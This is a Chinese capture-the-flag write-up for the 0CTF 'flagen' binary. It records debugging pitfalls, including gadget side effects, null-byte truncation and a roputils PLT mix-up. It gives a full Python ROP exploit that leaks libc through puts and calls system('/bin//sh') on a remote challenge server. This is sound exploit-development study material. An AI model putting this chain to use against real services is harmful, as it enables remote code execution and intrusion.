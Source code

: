 ```yaml
---
title: flagen
author: tank96a
layout: post
categories:
  - article
tags:
  - exploit
---
```


调试过程中发现的问题1：

{% highlight python %}
     payload1 = "1\n" + p32(leave) + "h"*77 + "a"*33 + p32(newEbp) + p32(pop1ret) + p32(newDest) + \
                rop.call(puts,rop.got('read')) + \
                p32(readLine) + p32(pop2ret) + p32(newEbp) + p32(count) + p32(leave) + "\n4\n"
{% endhighlight %}
                
这里的p32(pop2ret),就有可能破坏掉ebp,因为pop pop ret 中间大都有一条pop ebp,如果ebp此时被破坏了，不再是事先设定好的newEbp，那么紧接着的leave ret指令也就是失去了效果。

调试过程中发现的问题2：

如果设置count的大小为 0x20，这是打印看一下print payload1.encode('hex') 你会发现payload中出现了00,势必破坏了payload 所以要写成这样count = 0x01010101

调试过程中发现的问题3：

readLine = 0x080486cb # int read_str(char *a1, int length) 如果让readLine =rop.plt('read')可以吗？这里read函数需要3个参数，第一个是0，这样在payload中不可避免的出现了00,会导致在leetify函数中出现截断现象，rop不能继续进行下去，所以这里只能用readLine = 0x080486cb

for ( var_110 = str; *var_110; ++var_110 ) {......}

调试过程中发现的问题4：

from roputils import * 发现该模块的一个bug,当你使用rop.plt('puts')得到的却是printfPlt,相反rop.plt('printf')确是putsPlt 通过调试roputils的代码，发现它在生成plt字典的方法就有问题，没有考虑到本题的特殊情况。可以用readelf -W -a flagen查看一下， 两个位置正好颠倒一下。
{% raw %}
<pre>
Relocation section '.rel.plt' at offset 0x3f8 contains 13 entries:
 Offset     Info    Type                Sym. Value  Symbol's Name
0804b00c  00000107 R_386_JUMP_SLOT        00000000   read
**0804b010  00000807 R_386_JUMP_SLOT        00000000   puts**
0804b014  00000307 R_386_JUMP_SLOT        00000000   free
0804b018  00000407 R_386_JUMP_SLOT        00000000   alarm
0804b01c  00000507 R_386_JUMP_SLOT        00000000   __stack_chk_fail
0804b020  00000607 R_386_JUMP_SLOT        00000000   strcpy
0804b024  00000707 R_386_JUMP_SLOT        00000000   malloc
**0804b028  00000207 R_386_JUMP_SLOT        00000000   printf**
0804b02c  00000907 R_386_JUMP_SLOT        00000000   __gmon_start__
0804b030  00000a07 R_386_JUMP_SLOT        00000000   __libc_start_main
0804b034  00000b07 R_386_JUMP_SLOT        00000000   setvbuf
0804b038  00000c07 R_386_JUMP_SLOT        00000000   snprintf
0804b03c  00000d07 R_386_JUMP_SLOT        00000000   atoi

Symbol table '.dynsym' contains 17 entries:
   Num:    Value  Size Type    Bind   Vis      Ndx Name
     0: 00000000     0 NOTYPE  LOCAL  DEFAULT  UND 
     1: 00000000     0 FUNC    GLOBAL DEFAULT  UND read@GLIBC_2.0 (2)
**     2: 00000000     0 FUNC    GLOBAL DEFAULT  UND printf@GLIBC_2.0 (2)**
     3: 00000000     0 FUNC    GLOBAL DEFAULT  UND free@GLIBC_2.0 (2)
     4: 00000000     0 FUNC    GLOBAL DEFAULT  UND alarm@GLIBC_2.0 (2)
     5: 00000000     0 FUNC    GLOBAL DEFAULT  UND __stack_chk_fail@GLIBC_2.4 (3)
     6: 00000000     0 FUNC    GLOBAL DEFAULT  UND strcpy@GLIBC_2.0 (2)
     7: 00000000     0 FUNC    GLOBAL DEFAULT  UND malloc@GLIBC_2.0 (2)
**     8: 00000000     0 FUNC    GLOBAL DEFAULT  UND puts@GLIBC_2.0 (2)**
     9: 00000000     0 NOTYPE  WEAK   DEFAULT  UND __gmon_start__
    10: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@GLIBC_2.0 (2)
    11: 00000000     0 FUNC    GLOBAL DEFAULT  UND setvbuf@GLIBC_2.0 (2)
    12: 00000000     0 FUNC    GLOBAL DEFAULT  UND snprintf@GLIBC_2.0 (2)
    13: 00000000     0 FUNC    GLOBAL DEFAULT  UND atoi@GLIBC_2.0 (2)
....
</pre>
{% endraw %}

考虑到这个，以后就不能完全相信模块的这个函数调用。有的时候pop2ret=rop.gadget('pop', n=3)这种指令得到的地址中间可能会出现00，从而发生截断现象。所以虽然方便，但还是打印出来看一下为好。

{% highlight python %}
from roputils import *

rop=ROP('/root/Desktop/0ctf/flagen')
newEbp =rop.section('.bss')+0x400 
leave =rop.gadget('leave')   #0x080485d8  leave; ret
newDest =rop.got('__stack_chk_fail')   #0x0804b01c 
popRet=rop.gadget('pop', n=1)   #pop ebx; ret
puts = 0x08048510 #puts@plt
readLine = 0x080486cb
count = 0x01010101
sh = newEbp + 4*4  

#ip='127.0.0.1'   socat TCP-LISTEN:5149,reuseaddr,fork EXEC:/xxx/flagen
ip = '202.112.26.106'
conn = Proc(host=ip, port=5149)
#conn=Proc('/root/Desktop/0ctf/flagen')

#0x10c=4*9+77*3+1
payload1 = "1\n" + p32(leave) + "h"*77 + "a"*33 + p32(newEbp) + p32(popRet) + p32(newDest) + \
            rop.call(puts,rop.got('read')) + \
            p32(readLine) + p32(leave) + p32(newEbp) + p32(count) + "\n4\n"
print payload1.encode('hex')
conn.read_until("Your choice: ")
conn.write(payload1) 
conn.read_until("Your choice: ")
readAddr = conn.read_p32() 
print(hex(readAddr))

libc=ROP('/root/Desktop/0ctf/libc.so.6') 
#libc=ROP('/lib32/libc.so.6') 
libc.set_base(readAddr, 'read')
conn.write(p32(0xdeadbeef) + p32(libc.addr('system')) + p32(popRet) + p32(sh) + '/bin//sh\n' )
conn.wait(0)
{% endhighlight %}

